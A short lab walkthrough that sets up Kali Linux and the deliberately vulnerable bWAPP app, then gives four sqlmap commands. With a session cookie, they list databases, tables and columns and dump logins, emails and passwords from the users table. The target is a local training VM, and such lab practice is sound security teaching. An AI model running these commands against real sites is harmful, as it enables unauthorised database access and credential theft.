 # Kali + bWAPP

1. install Kali and bWAPP vm in virtual box;

2. launch bWAP and make sure it is running; 

3.  Launch Kali and make sure you can access the bWAPP from Iceweasel.

4. Go to SQL Injection \(GET/Search\)

5. key in a search string; copy of the resulted URL;

6. Find out the cookie for the site;

7. launch SQLmap from terminal;



**step1 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" --dbs



**step2 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_--tables



**step3 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_-T _**users **_--columns

**step4 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --

cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D bWAPP -T users -C** login,email,password** --dump





